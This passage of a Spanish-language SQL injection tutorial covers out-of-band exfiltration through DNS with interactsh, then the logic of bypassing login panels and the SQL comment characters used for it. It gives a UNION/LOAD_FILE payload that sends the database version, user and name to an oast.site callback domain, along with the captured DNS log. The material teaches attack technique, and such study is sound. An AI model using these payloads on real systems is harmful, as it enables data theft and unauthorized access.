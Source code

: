 Para explotar este tipo de inyección SQL necesitaremos una herramienta que utilizaremos para interceptar la información que mandamos a través de consultas HTTP(S) o DNS, yo voy a utilizar la herramienta `interactsh`, os dejo su [repositorio de github](https://github.com/projectdiscovery/interactsh) y un [video para aprender a usarla](https://www.youtube.com/watch?v=p-N56aR4Omw).

Iniciaremos la herramienta, al iniciarla nos proporcianaran un dominio al que tendremos que enviar las peticiones DNS o HTTP(S). Vamos a sacar la versión de la base de datos, el usuario que está corriendo la base de datos y la base de datos en uso. Os dejo un [estudio](https://zenodo.org/record/3556347#.YtGJj3ZByUm) en el que explotan este tipo de inyección SQL según la base de datos utilizada, en nuestro caso, utilizaremos el siguiente payload `teclado' UNION SELECT 1, 2, LOAD_FILE(CONCAT('\\\\',(SELECT @@version),'.',(SELECT user()),'.', (SELECT database()),'.','cb69n4j0744r7nrac3k0p8anqgpwzkhsc.oast.site\\vfw'))-- -` (teneis que cambiar el dominio por el que os hayan proporcionado).

```plaintext
[10.5.12-MariaDB-0+deb11u1.xdann1.Tienda.cb69n4j0744r7nrac3k0p8anqgpwzkhsc] Received DNS interaction (AAAA) from 85.62.233.105 at 2022-07-11 22:16:09
```

De esta forma hemos conseguido enviar una solicitud DNS a un dominio el cual tiene de subdominios la salida de las consultas SELECT. Si queremos conseguir otros datos
simplemente tendremos que cambiar las consultas SELECT.

<h3 data-toc-skip>Paneles de Login</h3>

Soy consciente de que esto no es un tipo de inyección SQL pero creo que se merece un apartado para explicar distintas formas de explotarlos.

Para que un panel de login nos de acceso necesitaremos que la consulta devuelva un valor `TRUE`, es decir, que el usuario y la contraseña sean correctas. No nos sirve que el usuario sea correcto y que la contraseña sea incorrecta, por lo que deducimos no está utilizando un `OR` y que en cambio, está utilizando un `AND`. Deducimos que la consulta que se hace a la base de datos es parecida a la siguiente:

```plaintext
SELECT * FROM Usuarios WHERE usuario='[input usuario]' AND contraseña='[input usuario]';
```

Si quisieramos iniciar sesión en nuestro panel de login tendríamos que dar unas credenciales válidas, vamos a ver como se haría esto desde un punto de vista lógico.

![Panel de Login Lógico]({{ 'assets/img/commons/sqli/login_logico.png' | relative_url }}){: .center-image }
_Panel del Login visto de una forma Lógica_

Vemos que ambas expresiones del `AND` tienen valores `TRUE` por lo que el valor de la consulta se convierte en `TRUE`, dandonos acceso al panel del usuario en cuestión. Como hemos visto en los otros tipos de inyecciones SQL hemos sido capaces de inyectar código en la consulta para que nos lo interprete, de esta forma consiguiendo subvertir la lógica de la consulta. Pues esto mismo vamos a hacer, tenemos dos formas principales para hacer esto, voy a pasar a explicarlas.

La primera de ellas consiste en utilizar los comentarios para subvertir la lógica de la consulta. Existen varias formas de comentar en SQL:

* (#): es preferible poner mejor la forma codificada en url (%23) ya que de la forma normal lo toma como una etiqueta.
* (-- ): es necesario un espacio luego de los dos guiones, por lo que necesitaremos poner un guion después del espacio ya que si no lo hacemos no nos interpretara el espacio.
* (/* */): no suele usarse en inyecciones SQL.
